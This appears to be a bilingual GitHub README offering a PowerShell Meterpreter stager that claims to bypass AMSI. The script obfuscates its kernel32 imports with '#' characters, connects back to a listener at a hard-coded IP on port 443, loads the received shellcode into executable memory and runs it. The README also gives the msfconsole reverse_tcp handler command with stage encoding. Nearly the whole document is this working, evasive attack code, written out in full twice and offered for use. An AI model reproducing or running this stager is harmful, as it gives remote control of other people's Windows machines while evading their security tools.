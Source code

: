 # Meterpreter-Powershell

This repo contains a simple meterpreter session in powershell bypassing amsi

1. [English](#English "Goto English")
2. [Code Meterpreter]
3. [Use]
4. [Spanish]
5. [Codigo Meterpreter]
6. [Uso]
7. [Video Poc (Uso/Use]

# English #
# Code Meterpreter #

[!] This code meterpreter only work with Powershell 32 bits
Path Powershell 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Use #
Start msfconsole with next command, replace "YourIp" and "YourPort" for your data
```
msfconsole -x "set lhost YourIp; set lport YourPort; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

# Spanish #
# Codigo Meterpreter #

[!] Este codigo de Meterpreter solo funciona en la PowerShell de 32 Bits 
Ruta Powershell de 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Uso #
Inicia msfconsole con el siguiente comando, reemplaza "TuIp" y "TuPuerto" por tus datos respectivos
```
msfconsole -x "set lhost TuIp; set lport TuPuerto; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

# Video Poc (Uso/Use) #



